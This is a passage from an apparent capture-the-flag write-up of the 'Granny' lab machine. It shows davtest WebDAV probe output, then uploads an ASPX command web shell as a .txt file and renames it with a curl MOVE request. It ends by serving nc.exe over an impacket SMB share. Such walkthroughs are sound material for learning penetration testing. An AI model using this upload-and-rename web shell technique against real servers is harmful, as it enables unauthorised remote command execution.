 ```shell
EXEC	cfm	FAIL
EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_dpBdObd8PSUw/davtest_dpBdObd8PSUw.html
EXEC	jsp	FAIL
EXEC	jhtml	FAIL

********************************************************
davtest.pl Summary:
Created: http://10.10.10.15/DavTestDir_dpBdObd8PSUw
PUT File: http://10.10.10.15/DavTestDir_dpBdObd8PSUw/davtest_dpBdObd8PSUw.php
PUT File: http://10.10.10.15/DavTestDir_dpBdObd8PSUw/davtest_dpBdObd8PSUw.txt
PUT File: http://10.10.10.15/DavTestDir_dpBdObd8PSUw/davtest_dpBdObd8PSUw.pl
PUT File: http://10.10.10.15/DavTestDir_dpBdObd8PSUw/davtest_dpBdObd8PSUw.cfm
PUT File: http://10.10.10.15/DavTestDir_dpBdObd8PSUw/davtest_dpBdObd8PSUw.html
PUT File: http://10.10.10.15/DavTestDir_dpBdObd8PSUw/davtest_dpBdObd8PSUw.jsp
PUT File: http://10.10.10.15/DavTestDir_dpBdObd8PSUw/davtest_dpBdObd8PSUw.jhtml
Executes: http://10.10.10.15/DavTestDir_dpBdObd8PSUw/davtest_dpBdObd8PSUw.txt
Executes: http://10.10.10.15/DavTestDir_dpBdObd8PSUw/davtest_dpBdObd8PSUw.html
```

For now we cannot upload an _.aspx_ extension which is the one we're interested for. 

What we can do know is make the _cmd.aspx_, then change it to txt, upload it , and finally since MOVE is enabled we change the name again:

## Explotation 
```shell
cp /usr/share/webshells/aspx/cmdasp.aspx .
cp cmdasp.aspx cmdasp.txt
```

Using `cadaver` I transfer the txt:
```shell
dav:/> put cmdasp.txt 
Uploading cmdasp.txt to `/cmdasp.txt':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.
```

```shell
❯ curl -X MOVE --header 'Destination:http://10.10.10.15/cmdasp.aspx' 'http://10.10.10.15/cmdasp.txt'
```

![](/assets/img/Anexos/Máquina%20Granny-3.png)

Now using `impacket` I share `nc`.
```shell
❯ cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/nc.exe .
❯ ls
 nc.exe
❯ smbserver.py smbFolder $(pwd) -smb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
